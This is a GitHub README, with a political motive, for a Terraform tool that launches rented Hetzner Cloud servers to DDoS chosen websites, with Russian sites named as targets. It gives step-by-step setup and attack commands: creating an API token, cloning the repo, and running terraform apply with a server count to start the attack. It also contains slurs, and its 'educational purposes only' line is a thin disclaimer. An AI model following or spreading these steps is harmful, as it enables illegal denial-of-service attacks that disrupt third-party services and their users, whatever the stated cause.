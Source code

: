 ## DDoS via Hetzner Cloud 

**hcloud-tf-kozak-launcher** helps easily launch DDoS servers via hetzner cloud (aws alternative) and, for instance, shut down russian fuckers' websites. (But it must be used for educational purposes only).

Note: payment for hcloud is about $1 to $5 per day.



How it works:
- Indicate the number of servers for DDoS attacks.
- Indicate domains you want to shut down.
- Using terraform launch these servers.
- Stop servers when you no longer need them working.
- Launch servers again indicating other websites.

## Install additional services 

**1. Create an account on [hetzner:cloud](https://www.hetzner.com/cloud)**
    
**2. Create a new project on [hetzner](https://www.hetzner.com/cloud)**

**3. Generate API-roken on [hetzner](https://www.hetzner.com/cloud)**

*PROJECT_NAME -> Security -> API TOKENS -> GENERATE API TOKEN (choose Read + Write)
    
**4. Open console**

**5. Export API token**
```bash
export TF_VAR_hcloud_token=<your token>
```
**6. Install terraform** ([installation guide](https://learn.hashicorp.com/tutorials/terraform/install-cli))


---
## Attack
**1. Clone project from Github and go to root directory**
```bash
git clone https://github.com/higef/hcloud-tf-kozak-launcher.git
cd hcloud-tf-kozak-launcher
```

**2. Launch servers and start DDoS**

```terraform
terraform init
terraform apply -var="kozak_count=10"  -auto-approve
```

**3. Stop these servers, when you are done**

```terraform
terraform destroy -auto-approve
```

# СЛАВА УКРАЇНІ, ГЕРОЯМ СЛАВА 💛💙

based on https://github.com/UA-TECH-POWER/DDoS_terraform_aws